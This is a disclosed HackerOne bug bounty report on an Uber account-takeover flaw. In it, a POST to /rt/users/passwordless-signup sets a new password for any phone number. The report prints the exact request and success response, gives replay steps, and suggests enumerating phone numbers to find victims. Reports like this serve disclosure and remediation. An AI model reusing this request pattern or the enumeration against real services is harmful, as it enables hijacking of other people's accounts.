 # Change any Uber user's password through /rt/users/passwordless-signup - Account Takeover (critical)

## Report Details
- **Report ID**: 143717
- **URL**: https://hackerone.com/reports/143717
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-06-08T16:31:39.368Z
- **Disclosed**: 2016-07-14T21:38:20.440Z

## Reporter
- **Username**: mongo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
Through the endpoint at /rt/users/passwordless-signup it is possible to change the password of any Uber user, given knowledge of their phone number (or by just enumerating phone numbers until one is found that is registered with Uber - not too hard given the number of Uber users).

I've tested this with Riders, the same might apply to Drivers or other user roles.

# Request/response

Here is the request used (I've censored out my phone number):
```
POST /rt/users/passwordless-signup HTTP/1.1
Host: cn-geo1.uber.com
User-Agent: client/iphone/2.137.1
Connection: close
Content-Type: application/json
Content-Length: 197

{"phoneNumberE164":"+xxxxxxxx","userWorkflow":"PASSWORDLESS_SIGNUP","userRole":"client","mobileCountryISO2":"XX","state":"CREATE_NEW_PASSWORD","newPasswordData":{"newPassword":"12345678911a!"}}
```

And the response:
```
{"phoneNumberE164":"+xxxxxxxx","serverState":"SUCCEEDED","serverStateData":{"nextState":"SIGN_IN"},"tripVerifyStateData":{},"userMessage":"New password has been created. Please login with the new Password.","userRole":"client","userWorkflow":"PASSWORDLESS_SIGNUP"}
```

# To replicate
1. Create a new Rider account (I used the iOS app, but this probably does not matter).
2. Replay the request shown above, changing the phoneNumberE164 field with the phone number you associated with your account (including country prefix and the plus sign, for example, +1xxx for US). You might need to replay it twice. You'll eventually get the "New password has been created." message; the new password has been set. The new password will be whatever you specified in the newPassword field in the request.
3. Login using the new password on http://riders.uber.com/ or elsewhere.

## Attachments
No attachments
